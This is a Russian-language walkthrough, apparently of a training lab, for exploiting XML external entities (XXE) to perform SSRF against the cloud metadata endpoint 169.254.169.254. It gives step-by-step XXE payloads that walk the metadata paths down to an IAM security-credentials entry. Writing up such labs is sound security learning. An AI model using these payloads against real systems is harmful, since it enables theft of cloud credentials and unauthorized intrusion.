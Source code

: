 ## Lab: Exploiting XXE to perform SSRF attacks
1) Переходим на сайт задания и выбираем любой продукт.
2) Нажимаем "Check stock" и перехватываем запрос через Burp Suite.
3) Между объявлением xml и stockCheck вставляем:
```php
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
4) Значение в productId меняем на &xxe;
5) Отправляем запрос и в ответ получим latest. Добавим его к адресу:
```php
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```
6) Снова отправляем запрос и дальше вставляем в адрес ответы, пока не дойдем до:
```php
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task2/image.png)

Готово!

